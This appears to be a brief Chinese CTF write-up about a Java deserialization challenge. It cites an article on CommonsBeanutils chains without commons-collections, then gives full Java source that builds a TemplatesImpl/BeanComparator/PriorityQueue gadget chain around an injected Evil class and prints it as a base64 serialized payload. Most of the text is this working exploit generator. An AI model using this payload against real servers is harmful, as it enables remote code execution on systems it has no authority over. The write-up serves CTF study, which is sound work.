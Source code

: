 > 考点：
>
> - cb链无依赖cc反序列化

反序列化学习：p神文章

- [CommonsBeanutils与无commons-collections的Shiro反序列化利用	](https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html)

后面的内容就是利用javassist读取class内容，Evil类直接用陇原战役的tomcat回显即可。

Test.java

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class Test {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();

    }

    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] payloads = new Test().getPayload(clazz.toBytecode());
        String string = Base64.getEncoder().encodeToString(payloads);
        System.out.println(string);
    }
}
```



![image-20211226222559651](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211226222559.png)


